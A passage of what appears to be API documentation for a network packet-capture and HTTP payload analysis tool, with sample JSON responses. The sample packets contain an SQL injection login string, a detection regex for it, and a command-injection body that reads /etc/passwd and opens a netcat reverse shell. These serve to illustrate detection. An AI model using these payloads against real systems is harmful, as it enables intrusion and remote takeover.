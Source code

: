 ```bash
GET /packets?since=2025-06-02T10:00:00&protocols=true
```

**Standard Response with HTTP Payload Analysis:**
```json
{
  "timestamp": "2025-06-02T10:30:45.123456",
  "count": 50,
  "total_captured": 1234,
  "packets": [
    {
      "timestamp": "2025-06-02T10:30:45.123456",
      "packet_id": 1234,
      "protocol": "TCP",
      "source_ip": "192.168.100.10",
      "source_port": 54321,
      "dest_ip": "172.20.0.2",
      "dest_port": 80,
      "direction": "outbound",
      "application": "HTTP",
      "flags_info": "Flags [P.]",
      "capture_time": 1717325445.123456,
      "raw_header": "10:30:45.123456 IP 192.168.100.10.54321 > 172.20.0.2.80: Flags [P.]",
      "raw_payload": "GET /admin/login.php?user=admin'OR'1'='1 HTTP/1.1\nHost: 172.20.0.2\nUser-Agent: curl/7.68.0",
      "http_type": "request",
      "http_method": "GET",
      "http_uri": "/admin/login.php?user=admin'OR'1'='1",
      "http_version": "1.1",
      "http_headers": {
        "host": "172.20.0.2",
        "user-agent": "curl/7.68.0"
      },
      "suspicious_uri_patterns": ["SQL injection pattern: ('|\")\\s*(or|and)\\s*('|\")?.*('|\")\\s*=\\s*('|\")"]
    }
  ]
}
```

**HTTP POST with Command Injection Example:**
```json
{
  "timestamp": "2025-06-02T10:31:22.456789",
  "packet_id": 1235,
  "protocol": "TCP",
  "source_ip": "192.168.100.15",
  "source_port": 45678,
  "dest_ip": "172.20.0.5", 
  "dest_port": 80,
  "direction": "outbound",
  "application": "HTTP",
  "flags_info": "Flags [P.]",
  "capture_time": 1717325482.456789,
  "raw_header": "10:31:22.456789 IP 192.168.100.15.45678 > 172.20.0.5.80: Flags [P.]",
  "raw_payload": "POST /upload.php HTTP/1.1\nHost: 172.20.0.5\nContent-Type: application/x-www-form-urlencoded\nContent-Length: 45\n\ncmd=cat /etc/passwd; nc 192.168.100.15 4444 -e /bin/bash",
  "http_type": "request",
  "http_method": "POST", 
  "http_uri": "/upload.php",
  "http_version": "1.1",
  "http_headers": {
    "host": "172.20.0.5",
    "content-type": "application/x-www-form-urlencoded",
```